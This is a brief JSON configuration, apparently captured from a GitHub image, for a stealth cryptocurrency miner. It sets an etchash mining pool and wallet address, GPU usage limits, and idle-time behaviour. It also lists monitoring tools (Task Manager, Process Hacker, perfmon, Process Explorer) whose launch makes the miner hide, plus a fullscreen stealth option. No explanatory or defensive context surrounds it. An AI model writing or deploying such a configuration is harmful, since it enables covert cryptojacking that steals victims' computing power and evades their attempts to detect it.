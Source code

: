 {
    "url": "stratums://`0xe4ac3124c713137B3d1554A1101f1f0E3B0d1F58`.like@etc.2miners.com:11010",
    "algo": "etchash",
    "max-gpu": 30,
    "idle-wait": 5,
    "idle-gpu": 80,
    "stealth-targets": "Taskmgr.exe,ProcessHacker.exe,perfmon.exe,procexp.exe,procexp64.exe",
    "kill-targets": "",
    "stealth-fullscreen": true
}
